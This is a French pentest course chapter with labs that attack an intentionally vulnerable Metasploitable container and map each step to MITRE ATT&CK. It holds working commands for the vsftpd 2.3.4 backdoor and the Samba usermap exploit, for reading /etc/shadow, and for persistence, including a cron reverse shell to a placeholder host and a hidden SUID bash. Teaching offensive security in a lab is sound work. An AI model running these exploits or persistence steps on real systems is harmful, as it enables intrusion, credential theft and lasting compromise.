




# Chapitre 02 : Tests de pénétration et exploitation

---

## Objectifs pédagogiques

- Construire une kill chain ATT&CK complète de la reconnaissance à la persistance
- Mapper les méthodologies OWASP/PTES sur les tactiques ATT&CK
- Réaliser une reconnaissance réseau complète avec nmap (T1046, T1595)
- Exploiter vsftpd 2.3.4 et Samba 3.0.20 avec Metasploit
- Obtenir un shell root et mettre en place une persistance (TA0003)

---

## Introduction

Un pentest professionnel ne consiste pas à casser un système au hasard. C'est une démarche méthodique en 7 phases, de la reconnaissance à la remise du rapport. Chaque phase se mappe à une ou plusieurs tactiques MITRE ATT&CK.

Aujourd'hui, vous allez construire votre première kill chain complète. À la fin de ce chapitre, vous saurez scanner une cible, identifier ses services vulnérables, les exploiter, et documenter chaque étape dans le référentiel ATT&CK.

> **Sources :** [PTES Technical Guidelines](http://www.pentest-standard.org/) — Penetration Testing Execution Standard.

---

## 1. Méthodologies de pentest et ATT&CK Kill Chain

### Mapping PTES → ATT&CK



### Kill chain ATT&CK de ce chapitre



---

## 2. Reconnaissance — TA0007 Discovery

### Reconnaissance passive (sans toucher la cible)

```bash
whois <DOMAINE>                    # Informations d'enregistrement
dig <DOMAINE> ANY                  # Tous les enregistrements DNS
curl -s "https://crt.sh/?q=%25.<DOMAINE>&output=json" | jq '.[].name_value' | sort -u
shodan search "org:<ORG>"          # Recherche Shodan
```

### Reconnaissance active (TA0007 Discovery → T1046 Network Scan)

```bash
nmap -sV -sC -p- <IP> -oA recon/full       # Scan complet avec scripts
nmap --script vuln <IP> -oA recon/vuln      # Scan de vulnérabilités
nmap --script ftp-* <IP>                     # Détection FTP
nmap --script smb-os-discovery <IP>          # Détection SMB
```

---

## Lab 2.1 — Reconnaissance du conteneur Metasploitable

### Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 45 min |
| **Conteneur** | `vsftpd` (Metasploitable 2, ports 21, 22, 445, 3306...) |
| **Dossier de travail** | `~/cours-hacking/jour-2/labs/` |
| **Fichiers à créer** | `recon.sh` |
| **Tactique ATT&CK** | TA0007 Discovery → T1046 Network Scan |

### Prérequis avant de commencer

- [x] Conteneur vsftpd lancé : `docker compose -f ~/cours-hacking/repo/docker-compose.yml up -d vsftpd`
- [x] Dossier créé : `mkdir -p ~/cours-hacking/jour-2/labs/recon`
- [x] Terminal ouvert dans `~/cours-hacking/jour-2/labs/`

### Étape 1 — Scan complet de la cible

```bash
cd ~/cours-hacking/jour-2/labs
nmap -sV -sC -p- localhost -P0 -oA recon/full_scan 2>&1 | tee recon/scan_output.txt
```

Résultat attendu (extrait) :

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
80/tcp   open  http        Apache httpd 2.2.8
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
```

**Checkpoint A :** Au moins 8 ports ouverts. Les versions vsftpd 2.3.4 et Samba 3.0.20 sont visibles.

### Étape 2 — Scan de vulnérabilités ciblé

```bash
nmap --script ftp-vsftpd-backdoor -p 21 localhost -P0 2>&1 | tee recon/vsftpd_scan.txt
nmap --script smb-vuln* -p 445 localhost -P0 2>&1 | tee recon/smb_scan.txt
```

**Checkpoint B :** Les scripts NSE confirment la backdoor vsftpd et les vulnérabilités SMB.

### Étape 3 — Script de reconnaissance automatisé

Créez `~/cours-hacking/jour-2/labs/recon.sh` :

```bash
#!/bin/bash
TARGET="${1:-localhost}"
OUTDIR="recon/$(date +%Y%m%d_%H%M)"
mkdir -p "$OUTDIR"

echo "[*] TA0007 — Discovery de $TARGET"
nmap -sV -sC -p 21,22,23,25,80,139,445,3306,5432 "$TARGET" -P0 -oA "$OUTDIR/ports"
nmap --script ftp-vsftpd-backdoor -p 21 "$TARGET" -P0 -oA "$OUTDIR/vsftpd"
nmap --script smb-vuln* -p 445 "$TARGET" -P0 -oA "$OUTDIR/smb"
echo "[+] Terminé → $OUTDIR"
ls -la "$OUTDIR/"
```

```bash
chmod +x recon.sh && ./recon.sh localhost
```

**Checkpoint C :** 3 fichiers `.nmap` créés dans `recon/<date>/`.

---

## Lab 2.2 — Exploitation vsftpd 2.3.4 (Backdoor)

### Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 40 min |
| **Conteneur** | `vsftpd` (port 21, backdoor sur port 6200) |
| **Dossier de travail** | `~/cours-hacking/jour-2/labs/` |
| **Tactique ATT&CK** | TA0001 Initial Access → T1190 Exploit Public-Facing App |

### Comprendre la vulnérabilité

vsftpd 2.3.4 contient une backdoor introduite en 2011. Quand un utilisateur se connecte avec un nom contenant `:)`, un shell root s'ouvre silencieusement sur le port 6200.



### Prérequis avant de commencer

- [x] Lab 2.1 terminé (vsftpd 2.3.4 identifié)
- [x] Port 21 accessible : `echo "" | nc -w2 localhost 21 | grep vsftpd`

### Étape 1 — Exploitation avec Metasploit

```bash
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS localhost; set RPORT 21; run"
```

Sortie attendue :

```
[*] Banner: 220 (vsFTPd 2.3.4)
[*] USER: 331 Please specify the password
[+] Backdoor service has been spawned, handling...
[+] UID: uid=0(root) gid=0(root)
[*] Command shell session 1 opened
```

**Checkpoint A :** `uid=0(root)` — shell root obtenu.

### Étape 2 — Exploitation manuelle (sans Metasploit)

```bash
# Terminal 1 : déclencher la backdoor
echo -e "user :)\npass x" | nc localhost 21 > /dev/null 2>&1 &

# Terminal 2 : se connecter au shell
nc localhost 6200
whoami
# root
```

**Checkpoint B :** `whoami` = `root` via exploitation manuelle.

### Étape 3 — Post-exploitation dans le shell

```bash
whoami                         # root
hostname                       # ID conteneur
uname -a                       # Kernel
cat /etc/shadow | head -5      # Hashs de mots de passe
ss -tulpn                      # Services internes
ls -la /home/                  # Utilisateurs
```

---

## Lab 2.3 — Exploitation Samba + Kill Chain complète

### Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 50 min |
| **Conteneur** | `vsftpd` (port 445, Samba 3.0.20) |
| **Dossier de travail** | `~/cours-hacking/jour-2/labs/` |
| **Tactiques** | TA0001 → TA0002 → TA0003 → TA0004 |

### Prérequis avant de commencer

- [x] Lab 2.2 terminé
- [x] Port 445 ouvert : `nc -z localhost 445 && echo OK`

### Étape 1 — Exploitation Samba usermap (CVE-2007-2447)

Samba 3.0.20 contient une vulnérabilité dans le script `usermap` qui permet l'exécution de commandes arbitraires.

Technique ATT&CK : T1210 Exploitation of Remote Services → TA0008 Lateral Movement

```bash
msfconsole -q -x "use exploit/multi/samba/usermap_script; set RHOSTS localhost; set RPORT 445; run"
```

Sortie attendue :

```
[*] Command shell session 2 opened
whoami
# root
```

**Checkpoint A :** Shell root obtenu via Samba.

### Étape 2 — Comparaison des exploits

| Caractéristique | vsftpd 2.3.4 | Samba 3.0.20 |
|---|---|---|
| **Service** | FTP (21) | SMB (445) |
| **ATT&CK** | T1190 | T1210 |
| **Tactique** | Initial Access | Lateral Movement |
| **Mécanisme** | Backdoor binaire | Usermap shell escape |

### Étape 3 — Persistance (TA0003)

Dans le shell root obtenu :

```bash
# Méthode 1 : Clé SSH permanente
mkdir -p /root/.ssh
echo "VOTRE_CLE_PUBLIQUE_SSH" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# Méthode 2 : Reverse shell cron (toutes les minutes)
echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/<KALI_IP>/5555 0>&1'" >> /etc/crontab

# Méthode 3 : SUID bash caché
cp /bin/bash /tmp/.hidden_bash
chmod 4755 /tmp/.hidden_bash
```

### Étape 4 — Documentation Kill Chain ATT&CK



Complétez ce tableau dans votre rapport :

| Phase | Tactic | Technique | Outil | Résultat |
|---|---|---|---|---|
| 1 | TA0007 Discovery | T1046 | nmap -sV | 10+ ports identifiés |
| 2 | TA0001 Initial Access | T1190 | msf vsftpd | Shell root |
| 3 | TA0002 Execution | T1059.004 | netcat | Command shell |
| 4 | TA0003 Persistence | T1098.004 | SSH auth keys | Clé ajoutée |

### Checkpoints finaux

- [ ] nmap identifie 8+ ports ouverts
- [ ] vsftpd 2.3.4 exploité, shell root
- [ ] Samba 3.0.20 exploité, shell root
- [ ] Persistance mise en place
- [ ] Kill chain ATT&CK documentée (tableau + mermaid)
- [ ] `/etc/shadow` lisible dans le shell

---

## Exercices

### Exercice 1 : Couche ATT&CK Navigator J2

**Énoncé :** Créez une couche ATT&CK Navigator avec les techniques du jour. Exportez en JSON dans `~/cours-hacking/jour-2/killchain_j2.json`.

<details>
<summary><strong>Solution</strong></summary>

1. ATT&CK Navigator → New Layer → Enterprise v15
2. Ajouter : T1046 (Network Scan), T1190 (Exploit Public-Facing), T1210 (Exploit Remote Services), T1059.004 (Unix Shell), T1098.004 (SSH Keys)
3. Colorer par criticité, exporter JSON
</details>

### Exercice 2 : Mapping WannaCry

**Énoncé :** WannaCry (2017) utilisait EternalBlue. Trouvez les techniques ATT&CK correspondantes.

<details>
<summary><strong>Solution</strong></summary>

- EternalBlue (CVE-2017-0144) → T1210 Exploitation of Remote Services (TA0008)
- DoublePulsar backdoor → T1543.003 Windows Service (TA0003)
- Chiffrement → T1486 Data Encrypted for Impact (TA0014)
</details>

---

## Points clés à retenir

- Kill chain ATT&CK : TA0007 → TA0001 → TA0002 → TA0003
- vsftpd 2.3.4 → T1190 (backdoor smiley), Samba 3.0.20 → T1210 (usermap)
- La persistance (TA0003) fait la différence entre intrusion et compromission durable
- Un pentest documenté ATT&CK est directement exploitable par le SOC

## Pour aller plus loin

- [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
- [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [GTFOBins](https://gtfobins.github.io/)

---

*Chapitre précédent : [Jour 1](./JOUR-01.md)*
*Chapitre suivant : [Jour 3](./JOUR-03.md)*
